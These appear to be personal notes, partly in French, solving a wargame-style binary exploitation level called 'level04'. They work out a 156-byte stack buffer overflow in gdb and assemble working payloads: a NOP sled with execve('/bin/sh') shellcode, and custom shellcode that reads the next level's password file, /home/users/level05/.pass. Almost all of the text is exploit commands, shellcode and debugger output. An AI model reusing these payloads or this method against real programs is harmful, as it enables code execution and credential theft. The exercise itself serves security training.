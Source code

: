 # level04

Pour l'instant
```
\x31\xc0\x50\x50\x50\x6a\x73\x68\x2e\x70\x61\x73\x68\x6c\x30\x35\x2f\x68\x6c\x65\x76\x65\x68\x65\x72\x73\x2f\x68\x65\x2f\x75\x73\x68\x2f\x68\x6f\x6d\x8d\x44\x24\x22\x50\x8d\x44\x24\x1e\x50\x8d\x44\x24\x08\x50\x31\xc0\xb0\x05\xcd\x80
```

<!-- >>> "/home/users/level05/.pass"[::-1].encode("hex") -->

https://unix.stackexchange.com/questions/421750/where-do-you-find-the-syscall-table-for-linux

https://github.com/torvalds/linux/blob/v4.17/arch/x86/entry/syscalls/syscall_32.tbl#L17

python -c 'print "A"*157' | ltrace -f ./level04 segv

155 does not segv

156 doubles

0x42424242

With gdb
set follow-fork-mode child

Et avec en entrée `python -c "print 'A'*(156) + 'B'*4"`

Après le gets on a la stack
```
x/100xw $esp
0xffffd650:     0xffffd670      0x00000000      0x00000000      0x00000000
0xffffd660:     0x00000b80      0x00000000      0xf7fdc714      0x00000000
0xffffd670:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd680:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd690:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd6a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd6b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd6c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd6d0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd6e0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd6f0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd700:     0x41414141      0x41414141      0x41414141      0x42424242

(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

Notre payload ?
```
# 0xffffd670

\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80

python -c "print '\x90'*(156 - 24) + '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + '\x70\xd6\xff\xff'"

python -c "print '\x90'*(156 - 24) + '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + '\x70\xd6\xff\xff'" | ltrace -f ./level04

(python -c "print '\x90'*(32) + '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + 'A'*(156-32-24) + '\x70\xd6\xff\xff'";) | ltrace -f ./level04

```

```
(python -c "print '\x90'*(156 - 80) + '\x31\xd2\x31\xc9\x8d\x1d\x33\x90\x04\x08\x31\xc0\xb0\x05\xcd\x80\x89\xc3\x8d\x0c\x24\xba\x28\x00\x00\x00\x31\xc0\xb0\x03\xcd\x80\xbb\x01\x00\x00\x00\x8d\x0c\x24\xba\x28\x00\x00\x00\x31\xc0\xb0\x04\xcd\x80\x2f\x68\x6f\x6d\x65\x2f\x75\x73\x65\x72\x73\x2f\x6c\x65\x76\x65\x6c\x30\x35\x2f\x2e\x70\x61\x73\x73\x00\x00\x00\x00' + '\x70\xd6\xff\xff'";) | ltrace -f ./level04
```

Len: 80
\x31\xd2\x31\xc9\x8d\x1d\x31\x90\x04\x08\x31\xc0\xb0\x05\xcd\x80\x89\xc3\x89\xe1\xba\x28\x00\x00\x00\x31\xc0\xb0\x03\xcd\x80\xbb\x01\x00\x00\x00\x89\xe1\xba\x28\x00\x00\x00\x31\xc0\xb0\x04\xcd\x80\x2f\x68\x6f\x6d\x65\x2f\x75\x73\x65\x72\x73\x2f\x6c\x65\x76\x65\x6c\x30\x35\x2f\x2e\x70\x61\x73\x73\x00\x00\x00\x00\x00\x00
